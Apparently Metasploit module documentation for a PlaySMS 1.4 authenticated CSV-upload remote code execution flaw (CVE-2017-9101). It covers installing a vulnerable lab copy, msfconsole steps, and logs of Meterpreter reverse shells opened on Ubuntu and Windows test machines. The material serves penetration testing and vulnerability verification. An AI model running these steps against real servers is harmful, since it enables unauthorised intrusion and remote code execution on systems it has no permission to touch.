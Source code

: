 ## Description
A malicious file can be uploaded by an authenticated attacker through the import.php (aka the Phonebook import feature) in PlaySMS version 1.4. Additional information and vulnerabilities can be viewed on Exploit-DB [42044]( https://www.exploit-db.com/exploits/42044/) and [CVE-2017-9101](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9101)

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

## Vulnerable Application Installation Setup.
Download Application : ```wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Extract : ```tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Move In WebDirectory : ```mv playsms-1.4/web/* /var/www/html/```

make config file: ```cp /var/www/html/config-dist.php /var/www/html/config.php```

Change Owner : ```chown -R www-data:www-data /var/www/html/```

Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.

Now Visit : http://localhost/


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/playsms_uploadcsv_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set targeturi SecreTSMSgatwayLogin`
  7. Do: `set username touhid`
  8. Do: `set password diana`
  9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
  10. Do: `set lport <port>`
  11. Do: `set lhost <ip>`
  12. Do: `exploit`
  13. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios
### Playsms on Ubuntu Linux
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.7
rhost => 10.22.1.7
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi SecreTSMSgatwayLogin
targeturi => SecreTSMSgatwayLogin
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.7:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set lhost 10.22.1.3 
lhost => 10.22.1.3
msf exploit(multi/http/playsms_uploadcsv_exec) > run 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : c9ad6a45cd206228554b237985b344ef
[*] Trying to Login ......
[+] Authentication successful: touhid:diana
[+] X-CSRF-Token for upload : 112cd5ecbdf12daf60391609d19ae3d6
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.7
[*] Meterpreter session 2 opened (10.22.1.3:4444 -> 10.22.1.7:56580) at 2018-03-25 17:42:43 +0530

meterpreter > sysinfo 
Computer    : Dina
OS          : Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686
Meterpreter : php/linux
meterpreter > 

```
### Playsms on Windows 7
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.9
rhost => 10.22.1.9 
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi web
targeturi => web
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.9:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username test
username => test
msf exploit(multi/http/playsms_uploadcsv_exec) > set password metasploit
password => metasploit
msf exploit(multi/http/playsms_uploadcsv_exec) > set verbose true
verbose => true
msf exploit(multi/http/playsms_uploadcsv_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : cf467bf4829b355a5f4f2964e853ff2c
[*] Trying to Login ......
[+] Authentication successful: test:metasploit
[+] X-CSRF-Token for upload : 3aca00c2d6a5988ed74fa7d992e14904
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.9
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.9:50065) at 2018-03-25 17:27:57 +0530

meterpreter > sysinfo 
Computer    : TOUHID-PC
OS          : Windows NT TOUHID-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 

```
